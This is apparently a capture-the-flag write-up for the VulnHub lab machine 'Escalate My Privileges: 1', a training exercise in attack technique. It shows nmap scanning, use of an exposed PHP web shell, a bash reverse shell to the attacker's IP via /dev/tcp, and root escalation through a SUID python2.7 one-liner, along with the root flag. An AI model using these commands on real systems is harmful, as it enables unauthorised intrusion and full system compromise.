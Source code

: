 
<div align="center">

<table>
  <tr>
    <td align="left" ><b>🎯 Target</b></td>
    <td>VulnHub - Escalate My Privileges: 1</td>
  </tr>
  <tr>
    <td align="left" ><b>👨‍💻 Author</b></td>
    <td><code><br>sonyahack1</br></code></td>
  </tr>
  <tr>
    <td align="left" ><b>📅 Date</b></td>
    <td>27.09.2025</td>
  </tr>
  <tr>
    <td align="left" ><b>📊 Difficulty</b></td>
    <td>Easy / Beginner Level</td>
  </tr>
  <tr>
    <td align="left" ><b>📁 Category</b></td>
    <td>Privilege Escalation</td>
  </tr>
  <tr>
    <td align="left" ><b>💻 Platform</b></td>
    <td>Linux</td>
  </tr>
</table>

---
## Table of Contents

- [Summary](#-%EF%B8%8F--attack-implemented)
- [Reconnaissance](#%EF%B8%8F--reconnaissance)
- [Initial Access](#-initial-access)
- [Vertical Privilege Escalation](#%EF%B8%8F----vertical-privilege-escalation)
- [Conclusion](#-conclusion)

---

<h2 align="center"> ⚔️  Attack Implemented</h2>

<div align="center">

<table width="100%">
  <thead>
    <tr>
      <th style="min-width: 250px; white-space: nowrap;">Tactics</th>
      <th>Techniques</th>
      <th>Description</th>
    </tr>
  </thead>
  <tbody>
    <tr>
      <td align="left"><b>TA0043 - Reconnaissance</b></td>
      <td align="left"><b>T1595 - Active Scanning</b></td>
      <td>Scanning the target system. Identifying open ports and services</td>
    </tr>
    <tr>
      <td align="left"><b>TA0001 - Initial Access</b></td>
      <td align="left"><b>T1190 - Exploit Public-Facing Application</b></td>
      <td>gaining access to the system through a public page with a web shell</td>
    </tr>
    <tr>
      <td align="left"><b>TA0007 - Discovery</b></td>
      <td align="left"><b>T1083 - File and Directory Discovery</b></td>
      <td>Detecting a potentially dangerous executable file with the SUID bit set as root</td>
    </tr>
    <tr>
      <td align="left"><b>TA0004 - Privilege Escalation</b></td>
      <td align="left"><b>T1548 - Abuse Elevation Control Mechanism</b></td>
      <td>exploiting an executable file with the SUID bit set</td>
    </tr>
  </tbody>
</table>

<br>

<table>
  <tr>
    <th>Root Flag</th>
    <td><code>flag{628435356e49f976bab2c04948d22fe4}</code></td>
  </tr>
</table>

</div>

---

<h2 align="center"> 📝 Report</h2>

> We load the image of the vulnerable machine into `virtualbox`:

<p align="center">
 <img src="./screenshots/virtualbox.png" alt="virtualbox" />
</p>

> IP address of the machine being attacked - `192.168.50.149`

---
## 🕵️  Reconnaissance

> We start scanning the machine for open ports and services using `nmap` in two stages:

```bash

sudo nmap -p- -vv -T5 --min-rate=1000 192.168.50.149 -oN list_open_ports | grep -E '^[0-9]+/tcp[[:space:]]+open' | cut -d '/' -f1 | paste -sd, - > ports.txt

```
```bash

sudo nmap -p$(cat ports.txt) -vv -A -n 192.168.50.149 -oN full_scan_results

```
```bash

Discovered open port 111/tcp on 192.168.50.149
Discovered open port 22/tcp on 192.168.50.149
Discovered open port 80/tcp on 192.168.50.149
Discovered open port 20048/tcp on 192.168.50.149
Discovered open port 2049/tcp on 192.168.50.149

```
```bash

22/tcp    open  ssh     syn-ack ttl 64 OpenSSH 7.4 (protocol 2.0)
80/tcp    open  http    syn-ack ttl 64 Apache httpd 2.4.6 ((CentOS) PHP/5.4.16)
| http-methods:
|   Supported Methods: GET HEAD POST OPTIONS TRACE
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.4.16
| http-robots.txt: 1 disallowed entry
|_/phpbash.php
|_http-title: Check your Privilege

```
> From the scan results I see some interesting open ports:

- `22 (ssh)` - used for ssh connections (OpenSSH 7.4);
- `80 (web/http)` - web server is running (Apache 2.4.6);

> Open the resource in the browser:

<p align="center">
 <img src="./screenshots/web.png" alt="web" />
</p>

> Just a picture. Nothing interesting.

> The scan revealed the presence of the page `/phpbash.php` in `robots.txt`. This can also be seen by manually navigating to `/robots.txt` in the browser:

<p align="center">
 <img src="./screenshots/robots_txt.png" alt="robots_txt" />
</p>

<p align="center">
 <img src="./screenshots/nmap_robots.png" alt="nmap_robots" />
</p>

---
## 🔓 Initial Access

> Navigate to `/phpbash.php` in the browser and you’ll see a `web-based command shell` running with the privileges of the `apache` user:

<p align="center">
 <img src="./screenshots/apache_shell.png" alt="apache_shell" />
</p>

> For convenience, we forward the reverse shell to our system:

```bash

bash -c 'bash -i >& /dev/tcp/192.168.50.127/4444 0>&1'

```
```bash

nc -lvnp 4444

Listening on 0.0.0.0 4444
Connection received on 192.168.50.149 38824
bash: no job control in this shell

bash-4.2$ id
id
uid=48(apache) gid=48(apache) groups=48(apache)
bash-4.2$

```
> We are upgrading this shell to `pty` (`pseudo`):

```bash

bash-4.2$ python3 -c 'import pty; pty.spawn("/bin/bash")'
bash-4.2$ ^Z
stty raw -echo;fg
export TERM=xterm-256color
reset

```
---
## 🔑⬆️    Vertical Privilege Escalation

> Let's list files with the `SUID` bit set:

```bash

bash-4.2$ find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null

```
<p align="center">
 <img src="./screenshots/suid_python.png" alt="suid_python" />
</p>

> I see a `python2.7` executable with the `SUID` bit set running as `root`. This is a potential vector for `privilege escalation`.

> [!IMPORTANT]
`SUID (Set User ID)` — This is a special permissions bit that can be set on an executable file in Linux. When a file with SUID set is executed, it
runs with the permissions of the file's owner, not the user who executed it.

> Next, either go to `gtfobins` and get the command to get the root's `EUID` from there:

```bash

bash-4.2$ /usr/bin/python2.7 -c 'import os; os.execl("/bin/sh", "sh", "-p")'
sh-4.2# id
uid=48(apache) gid=48(apache) euid=0(root) groups=48(apache)

```
> Or we manually write a one-liner in `python` to get `full root`, setting the `UID` of the current process to `0` (that is, `root`):

```bash

bash-4.2$ /usr/bin/python2.7 -c 'import os; os.setuid(0); os.system("/bin/bash")
[root@my_privilege html]# id
uid=0(root) gid=48(apache) groups=48(apache)

```
> In both cases, we obtain root privileges and get the `root flag` in the directory - `/root`:

```bash

[root@my_privilege root]# cd /root
[root@my_privilege root]# ls
proof.txt
[root@my_privilege root]# cat proof.txt
Best of Luck
628435356e49f976bab2c04948d22fe4
[root@my_privilege root]#

```
> root flag - `628435356e49f976bab2c04948d22fe4`

<div align="center">

<table>
  <tr>
    <td align="center">
      <b>🟢 Root flag</b><br/>
      <code>628435356e49f976bab2c04948d22fe4</code>
    </td>
  </tr>
</table>

</div>

---
## 🧠 Conclusion

> [!NOTE]
During the attack on the `Escalate My Privileges: 1` system, a network scan revealed an insecure publicly accessible page at `/phpbash.php`, which provided a web-based command shell
running with the privileges of the `apache` user. This allowed for `Initial Access` to the system by establishing a reverse shell to the attacker's machine.
Subsequent local `Enumeration` identified a potentially dangerous executable `python2.7` with the `SUID` bit set and owned by `root`. This led to full system compromise by leveraging a
one-liner in python to `Escalate Privileges`.
